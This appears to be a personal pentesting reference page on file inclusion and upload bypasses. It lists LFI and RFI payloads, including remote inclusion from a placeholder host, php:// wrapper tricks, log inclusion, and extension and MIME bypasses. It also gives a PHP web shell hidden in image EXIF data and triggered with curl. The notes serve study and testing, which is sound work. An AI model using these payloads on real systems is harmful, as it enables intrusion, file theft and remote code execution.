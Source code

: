 ```yaml
---
layout: default
title: File Inclusion
nav_order: 2 
parent: security stuff
---
```


## File Inclusions
In my research, i have found that file inclusion vulnerabilities (whether it be LFI of RFI) can be the most fruitful avenues to exploiting a box.
There are many ways to test for and exploit file inclusion vulnerabilities. Here is a list that I have put together for my own reference: 

- Basic LFI / Path Traversal:
`?page=/etc/passwd`
`?page=../../../../../../etc/passwd`

- Basic RFI:
`?file=http://somesite.com:8000/file.php`
`?file=https://somesite.com:8000/file.php`
`?file=ftp://somesite.com:8000/file.php`
  - Sometimes, input validation may prevent "http/https" requests but this is usually overcome easily by changing the case:
  `?file=HTTP://somesite.com:8000/file.php`
  `?file=htTp://somesite.com:8000/file.php`
  `?file=HttP://somesite.com:8000/file.php`





## LFI - Local File Inclusion
In most cases, when LFI is possible, the proc file system will be accessible for reading
Some interesting proc entires to keep in mind are: 
/proc/shed_debug : provides information concerning which processes are running are which cpu. Can help identify running PIDs
/proc/mounts : provides a list of mounted file systems
/proc/net/arp : displays ARP table info
/proc/net/route : displays routing table info
/proc/net/tcp[udp] : provides a lsit of active TCP(UDP) connections, identifies listening ports
/proc/net/fib_trie : this is used for route caching and help gain a better understanding of a target's network structure
/proc/version : displays kernel version info

If an application's PID is known, here are some interesting entries: *(NOTE: $PID can also be "self" to represent the running process)*
/proc/$PID/cmdline : lists everything that was used to invoke the process
/proc/$PID/environ : list all environment variables that were set when the process was executed
/proc/$PID/cwd : points to the current working directory of the process
/proc/$PID/fd/[#] : provides access to the file descriptor specified


In some cases, it is possible to execute PHP via the php://include wrapper:
`http://sometite.com/?page=php://input <?phpinfo();?>`
Or it may also be possible to look at the source of PHP files on the server using the php://filter wrapper:
`http://somesite.com/?page=php://filter/convert.base64-encode/resource=login.php


Including injected PHP code: (/var/log/apache/error.log)
`?file=../../../../../../../var/log/apache/error.log`





Resources:
<https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>
<https://diablohorn.com/2010/01/16/interesting-local-file-inclusion-method/>



---



1. PHP bypass content-type filtering and extension checks:
- try uploading a file.php, intercepting the request and changing the MIME type (i.e. `image/gif` `image/png` `image/jpg` `image/jpeg`)
- try changing the extension to .PHP instead of .php (lowercase vs uppercase)
- try appending additional extensions: .jpg.php or .php.jpg or .php.foo
- try tiggering the NULL byte: .php%00 or .php%00.jpg (also try: .php%00?)
- try uploading an image with embedded php: (depends solely on the ability to write to the file: `.htaccess`)
  - Add the following to the .htaccess file:
        > `AddType application/x-httpd-php .jpg`
        > # or
        > `AddType application/x-httpd-php5 .jpg`
  - Append php code to a valid image file:
        > `echo '<?php mail("root@localhost", "test" "mic check 1..2..1..2");' >> image.jpg`
  - In some cases, it may be necessary for the PHP code to prefix the image: 
        > `( echo -n '<?php header("Content-Type: image/jpg"); mail("root@localhost", "test", "mic check..1..2..1..2");?>'; cat original_image.png ) >> image.php.jpg` 
  - Upload the file and visit the image's URL. The image will display and the php code will also execute.
  - Try also embedding the php code somewhere else in the image (i.e. the EXIF data)

        ```bash
        # delete extra headers
        jhead -purejpg file.jpg
        # edit EXIF data:
        jhead -ce file.jpg
        # paste your php code in one line:
        <?=$_GET[0]($_POST[1]);?>
        ```
  - It's quickest to use curl to execute the script:
        `curl -i -X POST "http://127.0.0.1/phppng.png?0=shell_exec" -d "1=id"`

---

Resources & More Info on how to protect against these vulnerabilities:
- <http://nullcandy.com/php-image-upload-security-how-not-to-do-it/>
- <https://phocean.net/2013/09/29/file-upload-vulnerabilities-appending-php-code-to-an-image.html>
- <http://symcbean.blogspot.com/2016/06/local-file-inclusion-why-everything-you.html>
- <https://en.wikipedia.org/wiki/File_inclusion_vulnerability>
- <https://websec.io/2012/09/05/A-Silent-Threat-PHP-in-EXIF.html>
- <https://www.acunetix.com/websitesecurity/upload-forms-threat/>

- <https://github.com/wireghoul/htshells>
- <https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/PHP_Configuration_Cheat_Sheet.md>
- <https://suhosin.org/stories/index.html>
- <https://www.owasp.org/index.php/Unrestricted_File_Upload>
